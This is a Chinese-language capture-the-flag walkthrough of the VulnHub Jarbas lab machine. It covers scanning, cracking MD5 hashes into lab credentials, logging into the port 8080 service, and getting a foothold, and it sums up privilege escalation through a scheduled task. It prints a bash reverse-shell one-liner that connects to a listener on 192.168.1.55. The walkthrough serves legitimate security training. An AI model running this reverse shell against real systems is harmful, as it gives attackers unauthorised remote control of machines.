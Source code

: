 ```yaml
---
{"dg-publish":true,"dg-path":"安全/靶机/vulnhub_Jarbas.md","permalink":"/安全/靶机/vulnhub_Jarbas/","title":"vulnhub_Jarbas"}
---
```


```table-of-contents
```
# 主机扫描

//靶机刚开始被默认设置为了NAT模式，让我扫了半天没扫出来

![Pasted image 20250114165924.png](/img/user/picture/Pasted%20image%2020250114165924.png)

内网ip：
```
192.168.1.58
```

# 端口扫描

![Pasted image 20250114170005.png](/img/user/picture/Pasted%20image%2020250114170005.png)



开了四个端口
```
22,80,3306,8080
```

![Pasted image 20250114170901.png](/img/user/picture/Pasted%20image%2020250114170901.png)

UDP扫描
![Pasted image 20250114171300.png](/img/user/picture/Pasted%20image%2020250114171300.png)



# WEB渗透



目录扫描
![Pasted image 20250114172815.png](/img/user/picture/Pasted%20image%2020250114172815.png)

有一个`access.html`

![Pasted image 20250114172836.png](/img/user/picture/Pasted%20image%2020250114172836.png)
看一下加密

![Pasted image 20250114172858.png](/img/user/picture/Pasted%20image%2020250114172858.png)
应该就是md5加密


![Pasted image 20250114172941.png](/img/user/picture/Pasted%20image%2020250114172941.png)
tiago:italia99



![Pasted image 20250114173003.png](/img/user/picture/Pasted%20image%2020250114173003.png)
trindade:marianna

![Pasted image 20250114173030.png](/img/user/picture/Pasted%20image%2020250114173030.png)
eder:vipsu




经过测试第三个用户名密码可以在8080端口登录
![Pasted image 20250114173538.png](/img/user/picture/Pasted%20image%2020250114173538.png)


我们构建一个项目添加执行shell
```shell
bash -i >& /dev/tcp/192.168.1.55/4444 0>&1
```


![Pasted image 20250114174629.png](/img/user/picture/Pasted%20image%2020250114174629.png)
得到初级权限


## 提权
![Pasted image 20250114175000.png](/img/user/picture/Pasted%20image%2020250114175000.png)


![Pasted image 20250114175304.png](/img/user/picture/Pasted%20image%2020250114175304.png)


![Pasted image 20250114175416.png](/img/user/picture/Pasted%20image%2020250114175416.png)



![Pasted image 20250114175530.png](/img/user/picture/Pasted%20image%2020250114175530.png)


完成
![Pasted image 20250114175622.png](/img/user/picture/Pasted%20image%2020250114175622.png)




# 总结

在端口扫描中发现了开启了80和8080端口
对80端口所开启的web服务进行目录扫描，发现了不安全的登录凭证
浏览8080发现后台管理系统，利用发现的信息进行登录
利用后台系统拿到普通用户权限

在提权阶段`sudo -l`没有任何信息
看自动化任务发现漏洞









